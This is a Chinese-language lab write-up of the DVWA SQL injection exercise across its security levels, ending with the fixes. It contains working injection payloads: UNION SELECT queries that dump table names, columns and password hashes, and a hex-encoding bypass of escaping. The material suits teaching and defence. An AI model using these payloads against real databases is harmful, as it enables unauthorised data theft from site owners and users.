


# SQL Injection

页面只有一个输入框，输 ID 查用户名。后端把输入直接拼进 SQL，所以输什么就查什么。

Low 的源码长这样：

```php
$id = $_GET['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

`$id` 前后有单引号，这是字符型注入。知道这一点，后面所有 payload 都是从"怎么把这个引号闭合掉"开始的。

## Low

先确认现象。输 `1`，正常返回 admin；输 `1'`，页面报 `You have an error in your SQL syntax`。报错能出来，说明输入被当成了 SQL 的一部分，这就是注入点。

`1' OR '1'='1` 一次就出来五条记录。原因写在 SQL 里就是：

```sql
WHERE user_id = '1' OR '1'='1'
```

`'1'='1'` 永远成立，where 条件对整张表都成立。后面的 `'` 会多出来一个，所以要拿注释符收尾，`#` 或 `-- ` 都行（`--` 后面必须跟空格，少了空格 MySQL 不认）。

接着要搞清楚这个查询返回几列，不然 UNION 对不上。用 `ORDER BY` 试：

```
1' ORDER BY 1 -- 
1' ORDER BY 2 -- 
1' ORDER BY 3 --     ← 这里报错
```

第 3 列报错说明只有两列，正好对应源码里的 `first_name, last_name`。

回显位用 `1' UNION SELECT 1,2 -- ` 确认，页面显示 1 和 2，说明两列都能显示出来。

然后按库、表、字段、数据的顺序取：

```
1' UNION SELECT database(),user() --
1' UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database() --
1' UNION SELECT column_name collate utf8_general_ci,2 FROM information_schema.columns WHERE table_name='users' --
1' UNION SELECT user,password FROM users --
```

最后一条出来 `admin` 和 `5f4dcc3b5aa765d61d8327deb882cf99`，这个 MD5 是 `password`。


一次显示不完的话用 `concat()` 把几列拼成一个字符串塞进同一列：

```
1' UNION SELECT user,concat(user,':',password) FROM users --
```

## Medium

Medium 先把源码看了一遍。有两处变化：

```php
$id = mysqli_real_escape_string($conn, $_POST['id']);
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

第一，`$id` 外面没有引号了，这是数字型注入，不用闭合单引号。第二，前端从输入框变成了下拉框，只给 1 到 5。

下拉框没用。请求是 POST，Burp 拦下来直接改 `id=1` 为 `id=1 or 1=1`，照样出多条。

数字型下所有 payload 去掉开头的单引号就行：

```
1 or 1=1
1 order by 3
1 union select 1,2
```

真正卡住的地方在取字段名这一步。按 Low 的写法发：

```
1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name='users'
```

空的。原因是 `mysqli_real_escape_string` 把 `'users'` 里的单引号转成 `\'users\'`，字符串废了，`table_name` 匹配不上任何东西。

绕法是别用引号，用十六进制。`users` 的十六进制是 `0x7573657273`，MySQL 会把它当字符串处理：

```
1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273
```



还有一个小坑：`column_name` 那列不加 `collate utf8_general_ci` 会报排序规则冲突，整条 payload 直接 500。加在函数后面就行：

```
1 UNION SELECT column_name collate utf8_general_ci,2 FROM information_schema.columns ...
```

顺带说一句，这条 payload 必须写成一行。分成两行发，Burp 会把换行当参数分隔，后半截就丢了。




## High

High 在 SQL 末尾加了 `LIMIT 1`：

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;
```

本意是只返回一条，看起来像防护。实际上 `LIMIT` 只是限制返回行数，管不住注入，而且它在语句屁股上，用注释符就能切掉：

```
1' OR '1'='1' #
```

`#` 把后面的 `' LIMIT 1` 全部注释，语句结构回到 Low 的样子。后面取数流程和 Low 完全一样，只是每条都要带 `#` 或者 `-- ` 收尾。

这一级我没截到图，因为页面表现和 Low 几乎一样，多截一张也看不出区别。记结论就够：`LIMIT 1` 限制的是返回行数，不是注入。

## Impossible 为什么打不进去

```php
$stmt = $db->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
```

关键在 `?`。SQL 语句在传输之前就已经定型了，用户输入是后到的参数值，数据库不把它当语句解析。

拿 `1' OR '1'='1` 打进去，数据库收到的查询结构仍然是 `WHERE user_id = ?`，这个值整体被当成一个字符串去比较，找不到匹配就返回空。引号没能闭合任何东西，因为根本没有拼接这一步。

## 我卡住的地方

- `1'` 一开始只看到页面变了，没意识到是报错。看源码才知道 DVWA 把 SQL 错误显示出来了，很多真实站点会把错误吞掉，那时候要靠时间盲注或者布尔差异判断。
- `ORDER BY 3` 报错当时以为是语句写错，其实是列数超了。这个报错本身就是信息。
- Medium 取字段名那一步空了十分钟，一直在怀疑 payload 拼错，没想到是转义把引号吃了。

## 怎么修

1. 参数化查询。PHP 里是 PDO 或 mysqli 的 `prepare` + `bind_param`，这是唯一能根治的做法。
2. 类型强校验。ID 只应该是整数，`filter_var($id, FILTER_VALIDATE_INT)` 一行就挡掉大部分。
3. 数据库账号降权。Web 应用不该用 root 连库，只给需要的库和表的查询权限，注入成功也读不到别的数据。
4. 关掉错误回显。生产环境把 SQL 报错写日志，不回显到页面。

前两条是必须的，后两条是出了事能少丢点东西。
